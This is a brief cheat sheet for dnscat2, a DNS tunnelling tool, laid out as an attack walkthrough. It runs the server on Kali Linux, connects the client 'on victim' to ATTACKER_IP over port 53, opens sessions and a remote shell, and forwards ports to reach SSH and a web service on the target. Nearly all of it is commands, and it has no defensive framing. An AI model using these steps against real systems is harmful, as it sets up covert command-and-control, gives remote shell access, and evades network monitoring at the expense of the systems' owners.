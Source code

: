 # Dnscat2 

### DNScat2 is a tool which can be used to create a tunnel with the help of DNS protocol. A connection to port 53 should be established to access any data. DNScat2 mainly consists of a client and a Kali Linux.

## Github repo: https://github.com/iagox86/dnscat2

### Steps:

#### 1) Run dnscat2 server on Kali

    dnscat2-server (Kali Linux)

#### 2) Run dnscat on victim to connect to our Kali server via DNS

    ./dnscat --dns=server=ATTACKER_IP,port=53

#### 3) Select the newly created session on our Kali server

    session 

    session -i 1 

#### 4) We can create another session with this command

    shell

    session -i 2

#### 5) On our 2nd shell session, we can run different commands. For example, we can create an SSH tunnel this way.

    ifconfig 

    listen 127.0.0.1:8888 TARGET:22 (shell)

    ssh USER@127.0.0.1 -p 8888 (Kali)

 - listen 127.0.0.1:9999 192.168.226.129:80 (Port 80 tunneling)
